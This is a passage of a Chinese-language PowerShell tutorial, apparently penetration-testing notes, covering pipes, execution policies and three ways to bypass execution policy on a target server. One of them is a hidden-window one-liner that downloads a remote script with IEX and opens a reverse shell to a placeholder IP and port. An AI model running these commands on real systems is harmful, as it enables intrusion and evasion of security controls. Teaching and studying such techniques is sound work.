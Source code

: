 ## 管道
管道的作用是将一个命令的输出作为另一个命令的输入， 两个命令之间用管道符号`|` 连接。
举一个例子、停止所有目前运行中的，以"p"字符开头命名的程序，命令如下所示。
```
PS> get-process p* | stop-process
```


# Powershell进阶篇 

## 执行策略
为防止恶意脚本的执行，PowerShell的执行策略，默认情况下，Restricted:脚本不能运行，可以通过以下命令查看当前的执行策略。
- Get-ExecutionPolicy：
  - Restricted:脚本不能运行(默认设置)。
  - RemoteSigned:本地创建的脚本可以运行，但从网上下载的脚本不能运行(拥有数字证书签名的除外)。
  - AllSigned:仅当脚本由受信任的发布者签名时才能运行。
  - Unrestricted: 允许所有的script运行。

- Set-ExecutionPolicy <policy name>
可以通过上面命令改变PowerShell的执行策略。

如果要运行PowerShell脚本程序，必须用管理员权限将Restricted策略改成Unrestricted，所以在渗透时，就需要采用一些方法绕过策略来执行脚本， 比如下面这三种。

1. 绕过本地权限执行
上传xx.ps1至目标服务器，在CMD环境下，在目标服务器本地执行该脚本，如下所示。
```
PowerShell.exe -ExecutionPolicy Bypass -File xx.ps1
```

2. 本地隐藏绕过权限执行脚本
```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo -NonInteractive -NoProfile File xx.ps1
```

3. 用IEX下载远程PS1脚本绕过权限执行
```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NonI -NoProfile iex (New-Object Net.WebClient).DownloadString("xxx.ps1");Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

上述参数的说明，如下
- `ExecutionPolicy Bypass`绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全保护规则
- `WindowStyle Hidden`　隐藏窗口
- `NoLogo`　启动不显示版权标志的PowerShell.
- `NonInteractive (-Nonl) `　非交互模式，PowerShell不为用户提供交互的提示。
- `NoProfile (-NoP) `　PowerShell控制台不加载当前用户的配置文件。
- `Noexit`　执行后不退出Shell。这在使用键盘记录脚本时非常重要。


## 常用的PowerShel攻击工具有以下这几种
